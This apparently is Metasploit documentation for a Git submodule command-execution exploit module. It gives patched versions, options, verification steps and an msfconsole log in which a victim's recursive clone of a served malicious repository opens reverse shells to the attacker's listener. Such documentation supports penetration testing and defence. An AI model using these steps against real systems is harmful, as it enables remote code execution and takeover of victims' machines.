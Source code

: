 ## Vulnerable Application

  Git can be installed on a variety of operating systems, however
  newer versions may contain the patch for this vulnerability.

  On OSX it can be installed with the XCode command line tools:
  ```xcode-select --install```
  
  On Linux it can be installed with apt:
  ```sudo apt-get update && sudo apt-get install git```

  You can check the version with ```git --version```.
  The fix is included in the following version:
    2.7.6, 2.8.6, 2.9.5, 2.10.4, 2.11.3, 2.12.4, 2.13.5, 2.14.1

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: ```use exploit/multi/http/git_submodule_command_exec```
  1. Do: ```set SRVHOST [local host]```
  1. Do: ```set LHOST [local host]```
  1. Do: ```exploit```
  1. Clone the malicous Git URI and its submodules
  1. You should get a shell

## Options

  **GIT_URI**

  This is the URI the git repository will be hosted from (defaults to random).

  **GIT_SUBMODULE**

  This is the URI of the submodule within the git repository (defaults to random).
  The url of this submodule, when cloned, will execute the payload.

## Scenarios

  Example usage against a macOS Sierra x64 bit target running git version 2.10.1

```
msf > use exploit/multi/http/git_submodule_command_exec
msf exploit(git_submodule_command_exec) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf exploit(git_submodule_command_exec) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(git_submodule_command_exec) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.0.1:4444
msf exploit(git_submodule_command_exec) > [*] Using URL: http://192.168.0.1:8080/D29MF1UC
[*] Server started.
[*] Malicious Git URI is http://192.168.0.1:8080/ldnwrixuqq.git
***
Victim executes: git clone http://192.168.0.1:8080/ldnwrixuqq.git --recurse-submodules
***
[*] Command shell session 1 opened (192.168.0.1:4444 -> 192.168.0.1:55151) at 2017-08-29 16:54:56 +0800
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.1:55152) at 2017-08-29 16:54:56 +0800
```
